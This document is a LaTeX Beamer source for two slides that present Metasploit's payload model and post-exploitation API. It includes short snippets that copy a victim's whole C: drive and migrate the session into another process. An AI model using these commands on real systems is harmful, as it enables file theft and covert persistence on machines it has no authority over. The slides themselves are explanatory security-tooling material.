 \documentclass{beamer}
\newenvironment{sitemize}{\vspace{1mm}\begin{itemize}\itemsep 4pt\small}{\end{itemize}}
\begin{document}
\begin{frame}[t]
  \frametitle{Metasploit embedded}
  \begin{sitemize}
    \item Metasploit: A hacker tool framework
    \pause
    \item Tools built upon "framework-core" libraries
    \item Clear and documented SDK and interfaces
    \pause
    \item Similar 2.x interfaces written by us
    \item Automation tools written by you
  \end{sitemize}
\end{frame}


\begin{frame}[t, fragile]
  \frametitle{Payload model}
  \begin{sitemize}
    \item Payloads subscribe to unified API layers
    \item APIs emulate and extend the native Ruby APIs
    \item Port existing applications to be remote with no changes
    \item Great for scripting, great for testing
    \pause
    \item Better post-exploitation tools, more fun
    \begin{sitemize}
      \item Mirror victims harddrive:
\begin{verbatim}
client.fs.dir.download('./victim', 'c:\\', true)
\end{verbatim}
      \pause
      \item Migrate to a different process
\begin{verbatim}
pid = client.sys.process['calc.exe']
client.core.migrate(pid)
\end{verbatim}
      \pause
      \item Socket support, inefficent network pivoting
      \pause
      \item Support for Unix too, improved tools on their way
    \end{sitemize}
    \pause
  \end{sitemize}
\end{frame}
\end{document}
